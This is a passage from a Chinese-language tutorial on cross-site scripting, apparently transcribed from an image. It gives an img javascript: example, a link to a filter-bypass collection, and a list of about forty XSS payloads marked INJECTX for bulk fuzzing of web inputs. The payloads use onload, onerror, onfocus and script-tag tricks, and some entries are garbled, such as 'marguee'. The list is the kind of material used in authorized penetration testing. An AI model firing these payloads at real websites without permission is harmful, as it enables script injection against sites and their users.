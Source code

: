 \<img> 标签有两个必需的属性：src 和 alt

示例：

<img src=javascript:alert('xss')>//IE7以下

## **4.10 绕过大全链接**

链接：https://blog.csdn.net/qq_50854790/article/details/124297046

## **4.11 批量暴力payload**

```xml-dtd
javascript:alert(1)//INJECTX
<svg/onload=alert(1)>//INJECTX
<img onload=alert(1)>//INJECTX
<img src=x onerror=prompt(1)>//INJECTX
<a href="javascript:alert(1)" onmouseover=alert(1)>INJECTX HOVER</a>
 onmouseover="document.cookie=true;">//INJECTX
alert(1)>//INJECTX
<h1>INJECTX</h1>
<img src=x onload=prompt(1) onerror=alert(1) onmouseover=prompt(1)>
<svg><script>/<@/>alert(1)</script>//INJECTX
<svg/onload=alert(/INJECTX/)>
<iframe/onload=alert(/INJECTX/)>
<svg/onload=alert`INJECTX`>
<svg/onload=alert(/INJECTX/)>
<svg/onload=alert(`INJECTX`)>
}alert(/INJECTX/);{//
<h1/onclick=alert(1)>a//INJECTX
<svg/onload=alert(/INJECTX/)>
<p/onclick=alert(/INJECTX/)>a
<svg/onload=alert`INJECTX`>
<svg/onload=alert(/INJECTX/)>
<svg/onload=alert(`INJECTX`)>
<video><source onerror="javascript:alert(1)">//INJECTX
<video onerror="javascript:alert(1)"><source>//INJECTX
<audio onerror="javascript:alert(1)"><source>//INJECTX
<input autofocus onfocus=alert(1)>//INJECTX
<select autofocus onfocus=alert(1)>//INJECTX
<textarea autofocus onfocus=alert(1)>//INJECTX
<keygen autofocus onfocus=alert(1)>//INJECTX
<button form=test onformchange=alert(1)>//INJECTX
<form><button formaction="javascript:alert(1)">//INJECTX
<svg onload=(alert)(1) >//INJECTX
<script>$=1,alert($)</script>//INJECTX
<!--<img src="--><img src=x onerror=alert(1)//">//INJECTX
<img/src='x'onerror=alert(1)>//INJECTX
<marguee/onstart=alert(1)>//INJECTX
<script>alert(1)//INJECTX
<script>alert(1)<!--INJECTX
<marquee loop=1 width=0 onfinish=alert(1)>//INJECTX
```
